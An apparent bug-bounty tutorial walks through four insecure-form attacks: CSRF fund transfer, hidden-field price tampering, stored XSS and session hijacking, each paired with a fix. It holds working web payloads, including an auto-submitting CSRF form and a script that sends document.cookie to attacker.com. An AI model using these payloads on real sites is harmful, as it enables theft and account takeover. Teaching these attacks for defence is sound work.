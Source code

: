 ### **Bug Bounty Scenario: Exploiting Insecure HTML Forms**  

In this scenario, we’ll explore how **attackers can exploit insecure forms** and how you, as a **bug bounty hunter**, can identify and report these vulnerabilities.  

---

## **1. Scenario: CSRF (Cross-Site Request Forgery) in a Banking App**  
### **🛠 Target Web App:**  
A **banking website** allows users to **transfer funds** using the following form:  

```html
<form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="account" value="123456789">  <!-- Attacker can change this -->
    <label for="amount">Transfer Amount:</label>
    <input type="text" id="amount" name="amount" required>
    <input type="submit" value="Transfer Money">
</form>
```

### **🛠 Vulnerability: CSRF (Cross-Site Request Forgery)**  
- **Issue:** No CSRF protection (no CSRF token).  
- **Impact:** An attacker can trick a user into submitting a malicious request without their consent.  

### **🎯 How an Attacker Can Exploit It**  
1. The attacker creates a **malicious page** with the following **hidden form**:
```html
<form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="account" value="999999999">  <!-- Attacker's account -->
    <input type="hidden" name="amount" value="5000">  <!-- Steal $5000 -->
    <input type="submit">
</form>
<script>
    document.forms[0].submit();  // Auto-submit form when user visits page
</script>
```
2. The attacker **hosts this page** and tricks the victim into visiting it (via email, social media, etc.).  
3. The form **automatically submits** without the victim’s knowledge.  
4. The victim unknowingly **transfers money to the attacker's account**.  

### **✅ How to Fix This (For Developers)**
- Implement **CSRF tokens** in forms:
```php
<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
```
- **Validate the CSRF token** on the server-side before processing requests.

---

## **2. Scenario: Hidden Field Manipulation**
### **🛠 Target Web App:**  
An **e-commerce website** uses a **hidden field** to store product prices in a purchase form:  

```html
<form action="https://shop.com/checkout" method="POST">
    <input type="hidden" name="price" value="100">
    <input type="hidden" name="product_id" value="123">
    <input type="submit" value="Buy Now">
</form>
```

### **🛠 Vulnerability: Price Manipulation**  
- **Issue:** The price is stored in a **hidden field** and is **not validated** on the server.  
- **Impact:** An attacker can **change the price** before submitting the form.

### **🎯 How an Attacker Can Exploit It**
1. Open **Developer Tools (F12) → Console** and enter:
```javascript
document.querySelector('input[name="price"]').value = "1";  // Change price to $1
```
2. Click **"Buy Now"** and purchase the item for $1 instead of $100!  

### **✅ How to Fix This (For Developers)**
- **Never trust client-side data** (hidden fields, cookies, URL parameters).
- Validate prices on the server by **fetching the actual price from the database**.

---

## **3. Scenario: XSS (Cross-Site Scripting) in a Comment Form**
### **🛠 Target Web App:**  
A blog has a **comment system** where users can submit comments:  

```html
<form action="submit_comment.php" method="POST">
    <textarea name="comment"></textarea>
    <input type="submit" value="Post Comment">
</form>
```

### **🛠 Vulnerability: Stored XSS**
- **Issue:** The comment is stored in the database **without sanitization**.
- **Impact:** Attackers can inject **malicious scripts** that execute on every visitor's browser.

### **🎯 How an Attacker Can Exploit It**
1. Enter this **malicious comment** in the form:
```html
<script>alert('Hacked!');</script>
```
2. The script gets **stored in the database**.
3. Every time a visitor loads the page, they see a **JavaScript alert** (or worse, the attacker steals their cookies).

### **✅ How to Fix This (For Developers)**
- **Escape user input** using:
```php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
```
- **Use Content Security Policy (CSP)** to block inline JavaScript.

---

## **4. Scenario: Session Hijacking via Insecure Cookies**
### **🛠 Target Web App:**  
A website stores session data in **cookies** without security flags:

```php
setcookie("session_id", "123456", time() + 3600);
```

### **🛠 Vulnerability: Session Hijacking**
- **Issue:** The cookie **lacks `HttpOnly` and `Secure` flags**, making it accessible via JavaScript.
- **Impact:** Attackers can **steal session cookies** and impersonate users.

### **🎯 How an Attacker Can Exploit It**
1. Inject **malicious JavaScript** into a vulnerable page:
```html
<script>
    document.location = "https://attacker.com/steal.php?cookie=" + document.cookie;
</script>
```
2. The attacker's server logs the victim’s **session ID**.
3. The attacker **reuses the session ID** to take over the account.

### **✅ How to Fix This (For Developers)**
- Set secure cookies:
```php
setcookie("session_id", "123456", time() + 3600, "/", "", true, true);
```
**(Secure = true, HttpOnly = true)**

---

## **Final Thoughts: Bug Bounty Tips**
### **🔎 How to Find These Vulnerabilities in a Bug Bounty Hunt**
1. **Intercept Forms with Burp Suite** to check for:
   - CSRF protection (`_csrf_token` missing?).
   - Hidden field manipulation (`price`, `role`, etc.).
2. **Modify Form Data** using browser DevTools (`F12 → Console`).
3. **Check Cookie Security** (`HttpOnly` and `Secure` flags).
4. **Try XSS Payloads** in text inputs and search fields.
5. **Review API Requests** for insecure parameters.
